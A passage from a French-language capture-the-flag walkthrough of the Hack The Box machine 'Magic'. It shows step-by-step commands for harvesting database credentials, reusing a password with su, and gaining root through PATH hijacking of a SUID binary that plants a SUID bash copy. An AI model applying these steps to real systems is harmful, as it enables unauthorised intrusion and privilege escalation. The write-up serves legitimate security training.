drwx------ 2 theseus theseus .ssh
```

Là encore, `www-data` ne peut pas simplement y entrer pour récupérer une éventuelle clé SSH.

Cette vérification confirme donc l’objectif de la suite : il faut trouver un moyen de passer de `www-data` à l’utilisateur `theseus`.

Comme l’application web est une application PHP hébergée dans `/var/www`, tu peux ensuite chercher des fichiers de configuration ou des fichiers liés à la base de données.

Cette recherche est assez générique dans un environnement PHP. Dans beaucoup d’applications, les fichiers contenant `config`, `db` ou `database` dans leur nom servent à stocker des paramètres importants : connexion MySQL, nom de la base, utilisateurs, mots de passe ou hôtes.

Tu peux donc lancer une recherche ciblée dans `/var/www` :

```
find /var/www -type f \( -iname "*config*" -o -iname "*db*" -o -iname "*database*" \) 2>/dev/null
```

La commande retourne un fichier intéressant :

```
/var/www/Magic/db.php5
```

Comme ce fichier appartient à l’application web et qu’il semble lié à la base de données, tu peux tenter de le lire :

```
cat /var/www/Magic/db.php5
```

Résultat :

```bash
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';

    private static $cont  = null;

    public function __construct() {
        die('Init function is not allowed');
    }

    public static function connect()
    {
        // One connection through whole application
        if ( null == self::$cont )
        {
            try
            {
                self::$cont =  new PDO( "mysql:host=".self::$dbHost.";"."dbname=".self::$dbName, self::$dbUsername, self::$dbUserPassword);
            }
            catch(PDOException $e)
            {
                die($e->getMessage());
            }
        }
        return self::$cont;
    }

    public static function disconnect()
    {
        self::$cont = null;
    }
}
```

Le fichier contient les informations utilisées par l’application pour se connecter à MySQL :

```
base de données : Magic
hôte            : localhost
utilisateur     : theseus
mot de passe    : iamkingtheseus
```

Ces informations te donnent un accès probable à la base MySQL locale `Magic` avec le compte suivant :

```
theseus:iamkingtheseus
```

Comme l’utilisateur local `theseus` existe sur la machine, tu pourrais être tenté de tester directement ces identifiants en SSH depuis Kali :

```
ssh theseus@magic.htb
```

Avec le mot de passe :

```
iamkingtheseus
```

La tentative échoue cependant avec le message suivant :

```txt
theseus@magic.htb: Permission denied (publickey).
```

Ce message indique que le serveur SSH attend une authentification par clé publique. L’authentification par mot de passe n’est donc pas utilisable ici pour tester directement le mot de passe trouvé dans `db.php5`.

Les identifiants trouvés dans `db.php5` restent toutefois une piste intéressante. Comme ils apparaissent dans le fichier de connexion de l’application, ils peuvent probablement permettre d’interroger la base MySQL locale.

La suite consiste donc à tester cet accès et à explorer la base de données `Magic`.

### Exploration de la base MySQL Magic

Normalement, tu pourrais utiliser le client `mysql` pour te connecter à la base de données de manière interactive :

```bash
mysql -u theseus -p
```

Mais la commande n’est pas disponible sur la machine cible.

Pour ne pas s’arrêter là, tu peux chercher les autres outils MySQL présents dans les répertoires classiques des exécutables Linux : `/usr/bin`, `/usr/sbin`, `/bin` et `/sbin`.

```bash
find /usr/bin /usr/sbin /bin /sbin -iname "*mysql*" 2>/dev/null
```

Cette recherche permet d’identifier notamment `mysqlshow` et `mysqldump`.

```bash
/usr/bin/mysqloptimize
/usr/bin/mysqldump
/usr/bin/mysqladmin
/usr/bin/mysqlshow
/usr/bin/mysqld_safe
/usr/bin/mysqlbinlog
/usr/bin/mysqldumpslow
/usr/bin/mysqlcheck
/usr/bin/mysql_ssl_rsa_setup
/usr/bin/mysqlimport
/usr/bin/mysql_tzinfo_to_sql
/usr/bin/mysql_upgrade
/usr/bin/mysqlslap
/usr/bin/mysql_secure_installation
/usr/bin/mysqlrepair
/usr/bin/mysqlanalyze
/usr/bin/mysql_config_editor
/usr/bin/mysqld_multi
/usr/bin/mysql_plugin
/usr/bin/mysql_embedded
/usr/bin/mysql_install_db
/usr/bin/mysqlpump
/usr/bin/mysqlreport
/usr/sbin/mysqld
```

La différence est simple :

```
mysql      → client interactif classique
mysqlshow  → outil pour lister les bases et les tables
mysqldump  → outil pour exporter le contenu d’une base ou d’une table
```

Même sans le client interactif `mysql`, tu peux donc continuer l’énumération avec `mysqlshow`, puis lire le contenu intéressant avec `mysqldump`.

Tu peux d’abord vérifier l’accès à la base `Magic` avec `mysqlshow` :

```bash
mysqlshow -u theseus -piamkingtheseus Magic
```

Résultat :

```bash
mysqlshow: [Warning] Using a password on the command line interface can be insecure.
Database: Magic
+--------+
| Tables |
+--------+
| login  |
+--------+
```

La commande confirme l’accès à la base et affiche les tables disponibles. La table intéressante est :

```text
login
```

À ce stade, le nom de la table est très parlant. Comme l’application possède un formulaire de connexion, une table appelée `login` peut contenir des identifiants utilisés par le site.

Tu peux alors afficher le contenu de cette table avec `mysqldump` :

```bash
mysqldump -u theseus -piamkingtheseus Magic login
```

Le dump révèle une entrée intéressante :

```sql
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
```

Tu récupères donc un nouveau mot de passe :

```text
Th3s3usW4sK1ng
```

Cette fois, le mot de passe n’est pas celui du fichier de configuration MySQL. Il provient de la table `login` de l’application.

Comme le compte local `theseus` existe sur la machine, la prochaine étape logique consiste à tester une réutilisation de ce mot de passe avec l’utilisateur Linux `theseus`.


### Réutilisation du mot de passe pour devenir theseus

Plus tôt dans l’énumération, tu as déjà constaté que l’accès SSH à `theseus` demande une authentification par clé publique :

```text
theseus@magic.htb: Permission denied (publickey).
```

Le mot de passe trouvé dans la base de données ne peut donc pas être testé directement avec SSH.

Il faut donc continuer depuis le reverse shell obtenu en tant que `www-data`.

Depuis ce shell, tu peux tenter de changer d’utilisateur avec `su` :

```bash
su - theseus
```

Lorsque le mot de passe est demandé, tu fournis celui récupéré dans la base de données :

```text
Th3s3usW4sK1ng
```

Cette fois, le changement d’utilisateur fonctionne. Tu passes donc du contexte web `www-data` au compte local `theseus`.

Tu peux confirmer ton identité avec :

```bash
id
```

La sortie confirme que tu es bien connecté en tant que `theseus` :

```bash
uid=1000(theseus) gid=1000(theseus) groups=1000(theseus),100(users)
```

### Lecture de user.xtx

Tu peux maintenant lire le flag utilisateur :

```bash
cat user.txt
6461************************d728
```

À ce stade, tu as terminé la prise pied : tu es passé du contexte web `www-data` au compte utilisateur `theseus` et tu peux lire `user.txt`. 

La suite consiste maintenant à chercher un moyen d’élever les privilèges pour obtenir un accès root.

## Escalade de privilèges



### Vérification des droits sudo

La première vérification consiste à rechercher d’éventuels droits `sudo` accordés à l’utilisateur courant :

```bash
sudo -l
```

La réponse est :

```txt
Sorry, user theseus may not run sudo on magic.
```

Aucun droit `sudo` exploitable n’est disponible pour `theseus`. Il faut donc poursuivre l’énumération locale avec d’autres mécanismes susceptibles de permettre une escalade de privilèges.

### Recherche de capabilities exploitables

Les capabilities Linux permettent d’accorder certains privilèges particuliers à un programme sans lui attribuer l’ensemble des droits de `root`.

La commande suivante recherche les capabilities présentes sur le système :

```
getcap -r / 2>/dev/null
```

La sortie obtenue est la suivante :

```
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/snap/core20/1026/usr/bin/ping = cap_net_raw+ep
```

Les capabilities découvertes concernent principalement des opérations réseau ou des composants système attendus. Elles ne fournissent pas de piste évidente permettant d’obtenir les privilèges de `root`.

### Recherche des binaires SUID

Pour poursuivre l’énumération locale, le script `suid3num.py` est téléchargé dans `/dev/shm` en suivant la recette dédiée à l’escalade de privilèges sous Linux : 




Le script est ensuite exécuté afin de rechercher les fichiers disposant du bit SUID :

```bash
python3 /dev/shm/suid3num.py
```

Lorsqu’un programme SUID est exécuté, il utilise l’identité effective de son propriétaire plutôt que celle de l’utilisateur qui le lance. Un binaire SUID appartenant à `root` peut donc devenir intéressant s’il contient une faiblesse exploitable.

L’outil signale notamment un binaire personnalisé :

```txt
[~] Custom SUID Binaries (Interesting Stuff)
------------------------------
/bin/sysinfo
------------------------------
```

Les permissions et les caractéristiques de ce fichier sont ensuite vérifiées manuellement :

```bash
ls -la /bin/sysinfo
file /bin/sysinfo
id
```

La sortie confirme que `/bin/sysinfo` appartient à `root`, possède le bit SUID et peut être exécuté par les membres du groupe `users` :

```bash
-rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinfo
```

L’utilisateur `theseus` appartient justement à ce groupe :

```
uid=1000(theseus) gid=1000(theseus) groups=1000(theseus),100(users)
```

Il est donc autorisé à exécuter `/bin/sysinfo`. Grâce au bit SUID, le programme utilise alors les privilèges effectifs de son propriétaire, c’est-à-dire `root`.

### Analyse du fonctionnement de /bin/sysinfo avec strace

Tu passes ensuite à une analyse dynamique de `/bin/sysinfo` avec `strace`.

Pour commencer, tu exécutes le binaire en enregistrant une trace complète dans un fichier temporaire :

```bash
strace -f -o /tmp/sysinfo.strace /bin/sysinfo 2>/dev/null
```

L’option `-f` est importante, car `/bin/sysinfo` lance plusieurs processus enfants. Sans elle, les commandes exécutées par ces sous-processus pourraient ne pas apparaître dans la trace.

L’option `-o` permet d’enregistrer la sortie dans un fichier, ce qui facilite ensuite les recherches.

La redirection suivante masque les éventuels messages d’erreur affichés pendant l’exécution :

```bash
2>/dev/null
```

Tu recherches ensuite les appels `execve`, qui correspondent aux programmes exécutés :

```bash
grep -n "execve(" /tmp/sysinfo.strace
```

La sortie montre que `/bin/sysinfo` lance `/bin/sh` afin d’exécuter plusieurs commandes système :

```bash
execve("/bin/sh", ["sh", "-c", "lshw -short"], ...)
execve("/bin/sh", ["sh", "-c", "fdisk -l"], ...)
execve("/bin/sh", ["sh", "-c", "cat /proc/cpuinfo"], ...)
execve("/bin/sh", ["sh", "-c", "free -h"], ...)
```

Le point intéressant est que certaines commandes, notamment `lshw`, sont appelées sans chemin absolu :

```bash
lshw -short
```

Le programme n’exécute donc pas directement :

```bash
/usr/bin/lshw -short
```

Tu filtres alors la trace sur le mot-clé `lshw` :

```bash
grep -n "lshw" /tmp/sysinfo.strace
```

La trace montre que le shell recherche le programme `lshw` dans les différents répertoires définis par la variable d’environnement `PATH`, jusqu’à trouver le véritable binaire.

```bash
72:2143  execve("/bin/sh", ["sh", "-c", "lshw -short"], 0x7ffd86a86ac8 /* 18 vars */ <unfinished ...>
116:2143  stat("/usr/local/sbin/lshw", 0x7ffe3095d670) = -1 ENOENT (No such file or directory)
117:2143  stat("/usr/local/bin/lshw", 0x7ffe3095d670) = -1 ENOENT (No such file or directory)
118:2143  stat("/usr/sbin/lshw", 0x7ffe3095d670) = -1 ENOENT (No such file or directory)
119:2143  stat("/usr/bin/lshw", {st_mode=S_IFREG|0755, st_size=687056, ...}) = 0
122:2144  execve("/usr/bin/lshw", ["lshw", "-short"], 0x562f4b0b9b68 /* 18 vars */) = 0

```

Cette résolution via le `PATH` constitue la faiblesse exploitable. Comme `/bin/sysinfo` est un binaire SUID appartenant à `root`, tu peux tenter de placer un faux programme nommé `lshw` dans un répertoire contrôlé, puis placer ce répertoire en tête du `PATH`.

Le faux `lshw` sera alors exécuté à la place du programme légitime, avec les privilèges effectifs de `root`.

### Confirmation de l’exécution avec les privilèges de root

Avant de procéder à l’exploitation finale, une preuve de concept permet de vérifier que le faux programme sera bien exécuté avec les privilèges effectifs de `root`.

Le répertoire `/dev/shm` est utilisé, car `theseus` peut y créer et exécuter des fichiers.

Un faux programme `lshw` est créé :

```bash
cat > /dev/shm/lshw << 'EOF'
#!/bin/bash
id > /dev/shm/sysinfo_poc.txt
whoami >> /dev/shm/sysinfo_poc.txt
EOF
```

Le script doit ensuite être rendu exécutable :

```bash
chmod +x /dev/shm/lshw
```

Le répertoire `/dev/shm` est placé temporairement au début du `PATH` avant de lancer `/bin/sysinfo` :

```bash
PATH=/dev/shm:$PATH /bin/sysinfo
```

Lorsque `/bin/sysinfo` tente d’exécuter `lshw`, le shell trouve d’abord `/dev/shm/lshw` et l’exécute à la place du programme légitime.

Le résultat de la preuve de concept est consulté :

```bash
cat /dev/shm/sysinfo_poc.txt
```

Le fichier confirme que le faux programme a été exécuté avec les privilèges de `root` :

```bash
uid=0(root) gid=0(root) groups=0(root),100(users),1000(theseus)
root
```

Le détournement du `PATH` est donc exploitable.

### Création d’un Bash SUID dans `/var/tmp`

Le faux programme `lshw` est maintenant modifié afin de créer une copie SUID de Bash.

Le répertoire `/dev/shm` reste adapté pour héberger le faux `lshw`, car `theseus` peut y créer et exécuter des fichiers. En revanche, il ne convient pas pour stocker le Bash SUID : sur cette machine, `/dev/shm` est monté avec l’option `nosuid`.

```bash
mount | grep /dev/shm
```

La sortie montre que ce système de fichiers est monté avec l’option `nosuid` :

```bash
tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev)
```

Cette option demande au noyau d’ignorer les bits SUID et SGID présents sur les fichiers de ce système de fichiers. Une copie de Bash placée dans `/dev/shm` conserve donc visuellement le bit SUID dans ses permissions, mais celui-ci n’est pas appliqué lors de l’exécution.

Tu vérifies ensuite que `/var/tmp` n’est pas monté séparément avec cette option :

```bash
mount | grep -E ' /var/tmp | /var '
```

donne :

```bash
/dev/sda1 on /var/tmp type ext4 (rw,relatime,errors=remount-ro)
```

Aucune option `nosuid` ne concerne `/var/tmp`. Ce répertoire peut donc être utilisé pour stocker la copie SUID de Bash, tandis que `/dev/shm` reste utilisé pour héberger le faux programme `lshw`.

Le faux `lshw` devient alors :

```bash
cat > /dev/shm/lshw << 'EOF'
#!/bin/bash
cp /bin/bash /var/tmp/bashroot
chmod 4755 /var/tmp/bashroot
EOF
```

Le script est rendu exécutable, puis `/bin/sysinfo` est relancé avec `/dev/shm` placé en tête du `PATH` :

```bash
chmod +x /dev/shm/lshw
PATH=/dev/shm:$PATH /bin/sysinfo
```

La copie de Bash créée dans `/var/tmp` peut ensuite être vérifiée :

```bash
ls -l /var/tmp/bashroot
```

La sortie confirme qu’elle appartient à `root` et qu’elle possède le bit SUID :

```text
-rwsr-xr-x 1 root root 1113504 Jul 10 01:40 /var/tmp/bashroot
```

Tu exécutes ensuite cette copie avec l’option `-p` afin que Bash conserve les privilèges effectifs obtenus grâce au bit SUID :

```bash
/var/tmp/bashroot -p
```

La commande `id` confirme que l’UID réel reste celui de `theseus`, tandis que l’UID effectif devient celui de `root` :

```bash
id
uid=1000(theseus) gid=1000(theseus) euid=0(root) groups=1000(theseus),100(users)
```

### 

### Lecture de root.txt

Le shell dispose désormais des privilèges nécessaires pour lire le fichier final :

```bash
bashroot-4.4# cat /root/root.txt
3ff3xxxxxxxxxxxxxxxxxxxxxxxxxxxxd8d4
```

La compromission de la machine est maintenant terminée : l’accès initial a été obtenu, puis les privilèges de `root` ont été acquis grâce au détournement du `PATH` dans le binaire SUID `/bin/sysinfo`.

## Conclusion

La machine Magic de Hack The Box, classée HTB Medium, propose une chaîne d’exploitation variée et progressive.

L’injection SQL du formulaire d’authentification permet d’accéder à une fonctionnalité d’upload insuffisamment protégée. L’envoi d’une image contenant du code PHP conduit alors à une exécution de commandes, puis à l’obtention d’un reverse shell sous l’identité de `www-data`.

L’analyse des fichiers de l’application et du contenu de la base de données révèle ensuite un mot de passe réutilisé par l’utilisateur local `theseus`. Enfin, le binaire SUID `/bin/sysinfo` exécute certaines commandes sans utiliser leur chemin absolu. Le détournement de la variable `PATH` permet de substituer un faux programme `lshw`, puis de créer une copie SUID de Bash afin d’obtenir un shell `root`.

Magic met ainsi en évidence plusieurs erreurs de sécurité : une injection SQL, un contrôle insuffisant des fichiers envoyés, la réutilisation d’un mot de passe et l’exécution non sécurisée de commandes depuis un binaire SUID.


